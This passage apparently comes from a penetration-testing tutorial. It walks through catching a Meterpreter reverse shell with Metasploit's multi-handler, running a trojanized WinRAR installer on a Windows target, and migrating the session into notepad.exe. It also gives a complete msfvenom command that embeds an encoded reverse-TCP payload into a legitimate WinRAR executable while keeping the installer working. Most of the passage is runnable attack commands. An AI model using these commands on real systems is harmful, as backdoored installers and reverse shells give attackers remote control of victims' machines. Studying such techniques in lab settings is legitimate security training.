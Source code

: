### Setting up a Listener (Multi-Handler)

In a new tab, we start `msfconsole`:

```bash
msfconsole
```

We then configure the multi-handler:

```bash
use multi/handler
```

Next, we set the payload that we used to generate the executable:

```bash
set payload windows/meterpreter/reverse_tcp
set LHOST [own IP]
set LPORT 1234
run
```

### Executing the Payload

On the Windows system, we execute the payload (the WinRAR setup file). Since we did **not** use the `-k` option, it will not start the setup process. Instead, it just executes the payload.

### Result

On the Kali system, we receive a meterpreter session.

### Process Migration

We migrate the process that the meterpreter payload is currently running on to another process (for example, `notepad.exe`):

```bash
run post/windows/migrate
```

![grafik](https://github.com/user-attachments/assets/dbd5d1aa-d2ca-4d62-b740-9baa19f01462)

## The `-k` Option

The `-k` option maintains the functionality of the file we are injecting with a payload. However, it doesn't work on a lot of executables and requires extensive testing with different programs.

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[own IP] LPORT=1234 -e x86/shikata_ga_nai -i 10 -f exe -k -x ~/Downloads/wrar602.exe > ~/Desktop/Windows_Payloads/winrar.exe
```

# Automating

## Automating Metasploit with Resource Scripts
